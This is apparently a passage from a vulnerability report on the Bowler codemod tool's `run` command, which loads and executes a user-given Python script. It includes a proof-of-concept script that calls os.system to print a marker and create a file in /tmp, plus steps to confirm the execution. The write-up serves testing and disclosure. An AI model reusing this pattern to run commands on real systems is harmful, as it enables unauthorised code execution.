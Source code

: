             if path.is_dir():
                raise click.ClickException("running directories not supported")

            spec = importlib.util.spec_from_file_location(  # type: ignore
                path.name, path
            )
            module = importlib.util.module_from_spec(spec)
            spec.loader.exec_module(module)  # type: ignore

        else:
            module = importlib.import_module(codemod)

        main = getattr(module, "main", None)
        if main is not None:
            main()
    ```
  - The `run` command takes a `codemod` argument, which is the path to a Python script or module.
  - It uses `importlib` to dynamically import and execute the script using `spec.loader.exec_module(module)`.
  - **Vulnerability:** Direct execution of user-provided Python scripts without any security checks allows arbitrary code execution.
- Security Test Case:
  - Step 1: Create a malicious Python script named `malicious_codemod_run.py`:
    ```python
    import os

    def main():
        os.system('echo BowlerRunVulnerabilityFound!')
        os.system('touch /tmp/bowler_run_pwned')

    if __name__ == "__main__":
        main()
    ```
  - Step 2: Open a terminal and navigate to the directory containing `malicious_codemod_run.py`.
  - Step 3: Execute the following command:
    ```bash
    bowler run malicious_codemod_run.py
    ```
  - Step 4: Verify the impact: Observe that "BowlerRunVulnerabilityFound!" is printed in the terminal.
  - Step 5: Verify the impact:
    ```bash
    ls /tmp/bowler_run_pwned
    ```
    - Expected result: The file `/tmp/bowler_run_pwned` should exist, confirming arbitrary command execution via `bowler run` with a malicious codemod.